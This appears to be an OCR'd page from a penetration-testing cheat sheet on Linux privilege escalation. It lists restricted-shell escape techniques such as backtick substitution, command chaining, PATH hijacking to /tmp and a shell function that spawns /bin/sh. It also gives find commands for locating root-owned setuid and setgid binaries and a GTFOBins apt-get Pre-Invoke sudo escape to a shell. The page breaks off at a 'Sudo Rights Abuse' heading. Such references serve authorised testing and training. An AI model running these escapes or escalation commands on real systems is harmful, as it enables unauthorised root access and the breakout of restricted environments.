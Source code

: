 ## Escaping Methods

### Command Injection
- **Inject via Backticks**: Uses command substitution to execute restricted commands within allowed ones.  
  `ls -l \`pwd\``

### Command Substitution
- **Backtick Execution**: Executes commands via backticks within permitted shell constructs.  
  `echo \`id\``

### Command Chaining
- **Semicolon Chaining**: Executes multiple commands separated by semicolons.  
  `ls; id`
- **Pipe Chaining**: Chains commands using pipes to bypass restrictions.  
  `ls | whoami`

### Environment Variables
- **Modify PATH**: Alters PATH to point to malicious scripts in writable directories.  
  `export PATH=/tmp:$PATH`
- **Variable Expansion**: Uses variable expansion to execute unintended commands.  
  `echo $SHELL`

### Shell Functions
- **Define Function**: Creates shell function containing restricted commands.  
  `func() { /bin/sh; }; func`

# Special Permissions

Exploitation of SetUID/SetGID binaries and GTFOBins for privilege escalation through misconfigured executable permissions and restricted shell escapes.

## SetUID Binaries
- **Find SetUID**: Locates setuid binaries owned by root for potential exploitation.  
  `find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null`

## SetGID Binaries
- **Find SetGID**: Identifies setgid binaries for group privilege escalation.  
  `find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null`

## GTFOBins
- **GTFOBins Reference**: Curated collection of binaries for shell escape and privilege escalation.
- **Apt-Get Escape**: Uses apt-get pre-invoke to spawn shell from restricted environment.  
  `sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh`

# Sudo Rights Abuse
